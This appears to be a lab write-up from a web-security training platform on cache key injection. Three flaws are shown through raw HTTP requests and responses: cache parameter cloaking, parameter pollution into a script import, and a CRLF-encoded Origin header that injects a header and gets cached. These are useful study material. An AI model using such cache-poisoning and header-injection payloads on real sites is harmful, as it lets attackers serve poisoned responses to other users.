 >[!bug] Vuln #1: [Cache parameter cloaking](Web%20Cache%20Poisoning.md#Cache%20parameter%20cloaking)
>`/login` excludes the parameter `utm_content` from the cache key using a flawed regex.
>```http
>GET /login?lang=en HTTP/1.1
>Pragma: x-get-cache-key
>
>HTTP/1.1 302 Found
>Location: /login/?lang=en
>X-Cache-Key: /login?lang=en$$
>
>---
>
>GET /login?lang=en?utm_content=bar HTTP/1.1
>Pragma: x-get-cache-key
>
>HTTP/1.1 302 Found
Location: /login/?lang=en
X-Cache-Key: /login?lang=en$$
>```

>[!bug] Vuln #2: [HTTP Parameter Pollution (HPP)](HTTP%20Parameter%20Pollution%20(HPP).md)
>`/login/` imports a JavaScript file passing the same parameters used by the request. In this way arbitrary parameters can be passed to the script.
>
>*/login/?lang=en?utm_content=bar*
>```html
>...
> <script src='/js/localize.js?lang=en?utm_content=bar&cors=0'></script>
> ...
>```

>[!bug] Vuln #3: Header Injection using `Oring` + Cache Key Injection
>The application sets and caches arbitrary Origins when `cors=1`. The same cache key set when the origin is used can also be obtained using only HTTP GET parameters:
>```http
>GET /js/localize.js?lang=en?foo=bar&cors=1 HTTP/1.1
Host: 0ace00a30364b16c80e7b8ec0017003c.web-security-academy.net
Origin: 0xbro.red%0d%0aFoo:%20bar$$
Pragma: x-get-cache-key
Connection: close
>
>
>HTTP/1.1 200 OK
>Access-Control-Allow-Origin: 0xbro.red
>Foo: bar$$
>X-Cache-Key: /js/localize.js?lang=en?foo=bar&cors=1$$Origin=0xbro.red%0d%0aFoo:%20bar
>
>document.cookie = 'lang=en?foo=bar';
>
>
>GET /js/localize.js?lang=en?foo=bar&cors=1$$Origin=0xbro.red%0d%0aFoo:%20bar HTTP/1.1
>Pragma: x-get-cache-key
>
>HTTP/1.1 200 OK
>X-Cache-Key: /js/localize.js?lang=en?foo=bar&cors=1$$Origin=0xbro.red%0d%0aFoo:%20bar$$
>
>``` 
